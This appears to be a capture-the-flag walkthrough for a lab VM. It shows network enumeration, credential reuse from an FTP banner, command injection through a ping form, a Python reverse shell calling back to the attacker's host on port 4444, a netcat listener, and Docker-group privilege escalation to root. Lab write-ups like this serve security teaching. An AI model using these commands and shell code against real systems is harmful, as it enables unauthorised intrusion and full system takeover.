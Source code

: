 # Table of Contents

- [Enumeration](#enumeration)
- [Penetration](#penetration)
- [Escelation](#escelation)
- [Bonus](#bonus)
	- [CLI](#cli)
	- [Intresting Files](#intresting-files)


---

## Enumeration
- VM IP: `sudo netdiscover`

	* `VMWare 192.168.0.14 `
	
- VM info: `nmap -A -T4 -v 192.168.0.14`
	
	* <pre>
	  21/tcp open  ftp     vsftpd 2.0.8 or later
	  22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
	  880/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	  </pre>
	* FTP **Anonymous** log-in is on. 
		* FTP Server Banner: "ftp 'Security@hackNos'"
	  
- Web Server Directory: `dirb -w http://192.168.0.14` 

	* <pre>
	  http://192.168.0.14/index.html
	  http://192.168.0.14/css/style.css
	  http://192.168.0.14/css/2.jpg
	  </pre>
	  
- Web Server 192.168.0.14/5ecure login using:

	* admin:Security@hackNos, FTP Server Banner

- Web Server Directory: `dirb -w http://192.168.0.14/5ecure`		
	* <pre>
	  http://192.168.0.14/5ecure/index.html, form that POSTs data to output.php
	  http://192.168.0.14/5ecure/css/style.css
	  http://192.168.0.14/5ecure/css/2.jpg
	  http://192.168.0.14/5ecure/output.php, simple ping <ip> function + stdout
	  </pre>
---
	
## Penetration
- 192.168.0.14/5ecure/out.php

	* `exec(ping $ip)`, possible shell injection 
	
- $ip = || command

	* '; command' / '&& command' / '& command' didn't work out, possible character escape 
	* Examples:
		* ip=|| ls, *system navigation*
		* ip=|| whoami, *www-data*
		* ip=|| vi *filename*, *privilege check*
		* ip=|| export	

- [intresting files](#intresting-files):

	* /var/opt/python.py, creates a connection to 192.168.0.104:4444 and runs an interactive shell
	* /etc/passwd, user information
---

## Escelation

- `ssh 192.168.0.14 -l recon`
	* pass: Security@hackNos
- `docker run -it --privileged --name=ctf -v /:/host:rw alpine sh`
- container: `cd /host`
---

## Bonus

### CLI 
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- `nc -lvp 4444` to initiate a listener on 4444
- on 192.168.0.14/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: `python -c 'import pty; pty.spawn("/bin/bash")'`
- `getent group`: 
	* `docker:x:119:`, passwd --> `recon:x:1000:119:rahul:/home/recon:/bin/bash`
	* recon user gid = docker 
---

### Intresting files

- /var/opt/python.py:
	```
	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])
	```
	
- /var/etc:
	```
	root:x:0:0:root:/root:/bin/bash
	www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
	recon:x:1000:119:rahul:/home/recon:/bin/bash
	ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
	```
